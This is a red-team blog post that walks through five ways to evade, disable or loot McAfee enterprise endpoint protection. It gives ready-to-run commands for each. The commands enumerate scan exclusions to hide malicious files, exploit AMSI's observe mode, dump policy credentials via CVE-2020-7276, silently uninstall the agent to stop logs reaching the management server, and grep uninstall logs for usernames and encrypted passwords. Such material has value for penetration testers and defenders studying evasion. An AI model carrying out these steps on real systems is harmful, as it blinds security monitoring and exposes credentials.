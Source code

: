 ```yaml
---
title: Abusing McAfee Misconfigurations & Vulnerabilities
date: "2021-01-"
featuredImage: ''
---
```



# McAfee Products

Before I go on I want to briefly review how McAfee works for anyone who hasn't encountered it before. McAfee has various independent products that can be purchased by enterprises. Enterprises will purchase different products depending on their needs. Some of Mcafee's products you may encounter are:

* McAfee Web Gateway
* McAfee Endpoint Encryption
* McAfee Endpoint Security
* McAfee EndPoint Security Web Control
* McAfee VirusScan Enterprise
* McAfee Host Intrusion Prevention (HIP)
* McAfee Data Loss Prevention (DLP)

The full list of McAfee products is available <a href="https://www.mcafee.com/enterprise/en-us/products.html">here"</a>.

# Method 1 - Folder & File Exclusions

## On-Access Scan Exclusions

On-Access Scan (OAS) is the process of scanning files as they are accessed by users of the system. If you place your malicious file in an excluded folder then you can run it without worrying about McAfee stopping you. You can also abuse file exclusions, simply rename your malicious file to the excluded file name.

Query the following registry keys and check the file & folder names under the 'exclusion' value.

    #OAS Exclusions
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\EXCLUSION_EXCLUDE_OAS_PROCESS_GROUP_DEFAULT /v exclusions
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\EXCLUSION_EXCLUDE_OAS_PROCESS_GROUP_HIGH /v exclusions
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\EXCLUSION_EXCLUDE_OAS_PROCESS_GROUP_LOW /v exclusions
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\OAS_PROCESS_GROUP_DEFAULT /v exclusions
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\OAS_PROCESS_GROUP_HIGH /v exclusions
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\OAS_PROCESS_GROUP_LOW /v exclusions

    #Email attachment OAS Exclusions:
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\OAS_EMAIL_ATTACHMENTS /v exclusions


If for some reason you weren't able to find anything, they're also available as a file format in the following paths:

    C:\ProgramData\McAfee\Endpoint Security\McAfeeSettingsBackup\*.xml
    C:\ProgramData\McAfee\Endpoint Security\McAfeeSettingsBackup\*.reg


## On-Demand Scans

The aforementioned technique only covers On-Access Scan and therefore if the machine is scanned with an On-Demand Scan (ODS) then your files may be detected and removed. If you want the exclusions list for ODS check the following registry key.

    
    reg query HKLM\SOFTWARE\McAfee\AVSolution\ODS\541* /v exclusions

\* 541 may be a different number on your target machine 


# Method 2 - Disabled AMSI

By default, AMSI is set to <a href="https://www.mcafee.com/blogs/other-blogs/mcafee-labs/mcafee-amsi-integration-protects-against-malicious-scripts/">observe mode</a> which means if the invoked PowerShell commands or scripts are detected as being malicious, they won't be blocked. Of course as part of the red team, this music to my ears. Do note though that the detection event is logged.

![AMSI-Bypass](./AMSI_bypass.png)

# Method 3 - Dump Policy Settings (CVE-2020-7276)

I ran into this completely by accident and after searching online I realized this is probably <a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7276">CVE-2020-7276</a>. Basically if you have administrator privileges you can access policy settings which contains sensitive data such as usernames and passwords.

    cd "C:\Program Files\McAfee\Endpoint Security\Endpoint Security Platform\Upgrade"
    MfeUpgradeTool.exe /export out.txt /plaintext

![MfeUpgradeTool](./mfeupgradetool.png)

# Method 4 - Uninstalling McAfee Products

In some cases you can avoid McAfee by simply uninstalling their products. Every McAfee product has its own registry key with an <i>Uninstall Command</i> value. The product registry keys can be found can be in either one of the following parent keys:

    HKLM\SOFTWARE\WOW6432Node\Network Associates\ePolicy Orchestrator\Application Plugins
    Or
    HKLM\Software\Wow6432Node\McAfee\ePolicy Orchestrator\Application Plugins

![Uninstall](./uninstall_plugins.png)

If you use this method make sure you uninstall the McAfee agent after you have attempted uninstalling everything else.

The McAfee Agent is responsible for various tasks such as sending security logs to the centralized security management server known as ePO. To prevent the agent from sending logs to the server you can uninstall it. If tamper protection is enabled then this will fail, in that case you can try to switch the agent to 'unmanaged mode' which will also stop the machine from sending logs.

    #Remove Agent
    cd c:\Program Files\McAfee\Agent\x86
    FrmInst.exe /FORCEUNINSTALL /SILENT

    #Switch to unmanaged mode
    cd c:\Program Files\McAfee\Agent\x86
    FrmInst.exe /remove=agent /SILENT

# Method 5 - Credentials In Log Files

After using FrmInst.exe to uninstall the agent, logs are generated that contain sitelist.xml which has usernames, encrypted passwords, share names and server names.

    cd C:\Users\mrd0x\AppData\Local\Temp\McAfeeLogs
    findstr /i password * > enum.txt
    findstr /i <Domain name> * > enum2.txt

The encrypted passwords can be decrypted easily using <a href="">this tool</a> 